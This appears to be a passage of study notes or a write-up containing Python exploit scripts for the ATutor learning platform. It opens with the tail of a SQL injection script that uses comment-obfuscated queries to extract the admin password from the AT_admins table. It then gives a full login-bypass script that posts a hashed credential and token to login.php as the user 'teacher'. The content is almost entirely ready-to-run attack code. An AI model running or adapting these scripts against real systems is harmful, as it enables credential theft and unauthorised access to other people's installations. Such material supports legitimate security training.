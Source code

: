     query = "select/**/password/**/from/**/AT_admins/**/where/**/login='admin'"
    #query = "select/**/database()"
    password = inject(50, query, ip)
    print("(+) Credentials: %s / %s" % (username, password))


if __name__ == "__main__":
    main()


```

Login bypass:

atutor_login.py

```
import sys, hashlib, requests

def gen_hash(passwd, token):
    # COMPLETE THIS FUNCTION
    hashed = hashlib.sha1(passwd.encode() + token.encode()).hexdigest()
    return hashed

def we_can_login_with_a_hash():
    target = "http://%s/ATutor/login.php" % sys.argv[1]
    token = "hax"
    hashed = gen_hash(sys.argv[2], token)
    print (hashed)
    d = {
        "form_password_hidden" : hashed,
        "form_login": "teacher",
        "submit": "Login",
        "token" : token
    }
    s = requests.Session()
    r = s.post(target, data=d)
    res = r.text
    if "Create Course: My Start Page" in res or "My Courses: My Start Page" in res:
        return True
    return False

def main():
    if len(sys.argv) != 3:
        print ("(+) usage: %s <target> <hash>" % sys.argv[0])
        print ("(+) eg: %s 192.168.121.103 56b11a0603c7b7b8b4f06918e1bb5378ccd481cc" % sys.argv[0])
        sys.exit(-1)
    if we_can_login_with_a_hash():
        print ("(+) success!")
    else:
        print ("(-) failure!")

if __name__ == "__main__":
    main()
